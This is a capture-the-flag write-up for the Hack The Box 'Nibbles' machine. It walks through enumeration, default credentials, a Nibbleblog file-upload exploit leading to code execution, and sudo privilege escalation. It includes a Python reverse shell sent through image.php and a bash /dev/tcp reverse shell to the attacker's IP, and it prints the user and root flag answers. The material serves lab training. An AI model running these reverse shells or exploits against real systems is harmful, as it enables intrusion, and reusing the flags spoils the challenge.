# Hack The Box - Nibbles | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web Exploitation &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.56.127` &nbsp;•&nbsp; **Time taken:** 45 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The box we will attempt to exploit today is called Nibbles and it is an easy difficulty Linux machine.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Nmap scan<br/>SSH + Apache 2.4.18]:::entry --> B[Web page<br/>Hello world]:::entry

    B --> C[View source<br/>/nibbleblog/ leaked]:::intel
    B -. ffuf empty .-> C

    C --> D{Enumerate<br/>Nibbleblog}:::intel
    D --> E[admin.php]:::intel
    D --> R[README<br/>version 4.0.3 Coffee]:::intel

    E --> F[Default creds<br/>admin/nibbles]:::user
    R --> G[searchsploit<br/>Arbitrary File Upload]:::payload

    F --> H{Foothold}:::payload
    G --> H
    G -. read the Ruby<br/>exploit code .-> H

    H --> I[PHP shell<br/>image.php]:::payload
    I --> J[RCE<br/>uid=1001 nibbler]:::user
    J --> K[Reverse shell<br/>+ pty upgrade]:::user

    K --> L[User flag]:::user
    K --> M[sudo -l<br/>monitor.sh NOPASSWD]:::payload

    M --> O[World-writable script<br/>shebang + bash rev shell]:::payload
    O --> P[Run full path<br/>as sudo]:::payload
    P --> Q[Root flag]:::mitre

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```

---

## What I Learned

- Reading the Ruby exploit code through ChatGPT rather than just running the Metasploit module, so I actually understood that the upload gets renamed to `image.php` and where the code execution happens.
- How to abuse an arbitrary file upload in Nibbleblog to drop a PHP reverse shell into the plugin area.
- Escalating privileges by writing a shebang and a bash reverse shell into a world-writable script, then running the full path as sudo and catching it in another terminal to land as root.

---

## Enumeration

We can start with an Nmap scan with default scripts and enumerate the service versions.

```
nmap -sVC 10.129.56.127
```



*Figure 1 - Nmap shows SSH on 22 and Apache httpd 2.4.18 on port 80.*

We can see the box has a web page open as well as an SSH port, we can also see that it is running Apache 2.4.18 so we can head on over to the webpage.



*Figure 2 - The web page just greets us with a simple "Hello world!" text.*

We are greeted with a simple Hello world text. In the source code however we can find that there is a directory called nibbleblog.



*Figure 3 - The HTML comment in the source code leaks the /nibbleblog/ directory.*

We can head onto here, and in the mean time we can enumerate for any other directories using ffuf small directories list. Our ffuf however came up empty, perhaps we can enumerate nibbleblog to see if we can find anything more.



*Figure 4 - Fuzzing /nibbleblog/ turns up admin, README, content, plugins and more.*

We found an admin endpoint along with a few others such as README, perhaps this is an exploit on Nibbleblog itself? So we opened up Burp Suite to see if we can get any more useful info.

---

## Getting In

There seems to be a site open at admin.php so we went there and we tried a few credentials and it didn't work, so we looked online for some default credentials and we found admin/nibbles.

We also found the version of Nibbleblog in the bottom.



*Figure 5 - Logged into the admin panel, the footer shows Nibbleblog 4.0.3 "Coffee".*

Now we can look up if there is any Nibbleblog exploits.



*Figure 6 - searchsploit returns a Multiple SQL Injections and an Arbitrary File Upload (Metasploit) for Nibbleblog 4.0.3.*

There seems to be an arbitrary file upload as well as SQL injections. We decided to download the arbitrary file upload. Since the file was in Ruby we didn't exactly understand the script, so we decided to get AI to explain it to us. As it seems, the code execution happens when we upload a PHP file in the image, and we can access this via this URL:

```
content/private/plugins/my_image/image.php
```



*Figure 7 - Reading the Ruby exploit through ChatGPT explains that the uploaded content is written to a predictable, web-accessible image.php.*

We have been told it is in the plugin area, so we can navigate there and we can use a PHP reverse shell as we have identified the web application runs PHP.



*Figure 8 - The My image plugin upload form in the admin panel, ready to receive our PHP payload.*

It seems there are some checks in place when we upload our shell, so we can try and find the problem using Burp Repeater, however this kept happening. So we went back to the code, and in it it actually says no matter what we name the file it gets renamed as image.php and can be visited by viewing the following:

```
/content/private/plugins/my_image/image.php
```



*Figure 9 - Hitting image.php?cmd=id confirms code execution as uid=1001(nibbler).*

And it was right, it seems we can get access. So now we can set up a listener on our machine and catch it with a reverse shell from pentestmonkey.

After testing a few it seems the Python reverse shell worked.

```
http://10.129.56.127/nibbleblog/content/private/plugins/my_image/image.php?cmd=python3+-c+%27import+socket,subprocess,os;s=socket.socket();s.connect((%2210.10.15.110%22,4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([%22/bin/sh%22,%22-i%22])%27
```

So now we can upgrade our terminal using `python3 -c 'import pty;pty.spawn("/bin/bash")'`, then we can background our terminal and then `stty raw -echo; fg` in our own terminal and then `export TERM=xterm`.



*Figure 10 - The reverse shell lands on our netcat listener and the pty module gives us a proper interactive shell.*

---

## User Flag

And we got our user flag.



*Figure 11 - cat user.txt from /home/nibbler.*

> Read the contents of `user.txt`.

**Answer:** `0c657b2110c2dc83532f238549c6c108`

---

## Privilege Escalation

Now we can attempt to get our root by seeing what permissions we have.

```
sudo -l
```



*Figure 12 - nibbler can run /home/nibbler/personal/stuff/monitor.sh as root with NOPASSWD.*

It seems we can run this command, so lets go into this file and see what permissions we have.



*Figure 13 - After unzipping personal.zip, monitor.sh is world writable (-rwxrwxrwx).*

It seems we have read, write and execute. So we can echo in a reverse shell and catch it in another terminal and be sudo as root. For this we need to add a shebang on top of the script with single quotes, and then add our bash reverse shell, and then run the full path as sudo.

```
echo '#!/bin/bash' > monitor.sh
echo 'bash -i >& /dev/tcp/10.10.15.110/1234 0>&1' >> monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
```



*Figure 14 - Catching the sudo reverse shell on port 1234 gives a root shell, and we read root.txt.*

> Read the contents of `root.txt`.

**Answer:** `c49fb20f34e77ee30b12031a117ed97c`
